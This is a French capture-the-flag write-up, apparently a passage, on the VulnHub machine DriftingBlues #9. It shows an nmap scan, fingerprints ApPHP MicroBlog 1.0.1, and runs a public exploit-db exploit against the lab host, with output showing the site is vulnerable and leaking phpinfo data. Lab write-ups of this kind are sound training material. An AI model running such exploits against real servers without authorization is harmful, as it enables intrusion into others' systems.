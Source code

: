 ```yaml
---
title: Solution du CTF DriftingBlues #9 de VulnHub
tags: [CTF, VulnHub]
---
```


Last but not least
------------------

Vu que la 8ème VM DriftingBlues n'est pas sur VulnHub, je m'en prend [au dernier épisode](https://www.vulnhub.com/entry/driftingblues-9-final,695/).  

```plain
Nmap scan report for 192.168.56.13 
Host is up (0.00018s latency). 
Not shown: 65532 closed tcp ports (reset) 
PORT      STATE SERVICE VERSION 
80/tcp    open  http    Apache httpd 2.4.10 ((Debian)) 
|_http-generator: ApPHP MicroBlog vCURRENT_VERSION 
|_http-title: ApPHP MicroBlog 
| http-cookie-flags:  
|   /:  
|     PHPSESSID:  
|_      httponly flag not set 
|_http-server-header: Apache/2.4.10 (Debian) 
111/tcp   open  rpcbind 2-4 (RPC #100000) 
| rpcinfo:  
|   program version    port/proto  service 
|   100000  2,3,4        111/tcp   rpcbind 
|   100000  2,3,4        111/udp   rpcbind 
|   100000  3,4          111/tcp6  rpcbind 
|   100000  3,4          111/udp6  rpcbind 
|   100024  1          44352/udp   status 
|   100024  1          46642/tcp6  status 
|   100024  1          53750/tcp   status 
|_  100024  1          56507/udp6  status 
53750/tcp open  status  1 (RPC #100024)
```

On a une appli web baptisée *ApPHP MicroBlog*. Dans le code HTML de la page on trouve le commentaire suivant :  

```html
This script was generated by ApPHP MicroBlog v.1.0.1 (http://www.apphp.com/php-microblog/) 
```

En cherchant un exploit sur *exploit-db* [j'en trouve un](https://www.exploit-db.com/exploits/33070) qui m'est rapidement familier... car c'est moi qui l'avait écrit... il y a 8 ans. J'avais oublié :p  

La bonne nouvelle c'est qu'il fonctionne toujours comme un charme :  

```python
$ python apphp.py http://192.168.56.13/index.php 
  -= LOTFREE exploit for ApPHP MicroBlog 1.0.1 (Free Version) =- 
original exploit by Jiko : http://www.exploit-db.com/exploits/33030/ 
[*] Testing for vulnerability... 
[+] Website is vulnerable 

[*] Fecthing phpinfo 
        PHP Version 5.6.40-0+deb8u12 
        System   Linux debian 3.16.0-4-586 #1 Debian 3.16.51-2 (2017-12-03) i686 
        Loaded Configuration File   /etc/php5/apache2/php.ini 
        Apache Version   Apache/2.4.10 (Debian) 
        User/Group   www-data(33)/33 
        Server Root   /etc/apache2 
        DOCUMENT_ROOT   /var/www/html 
```
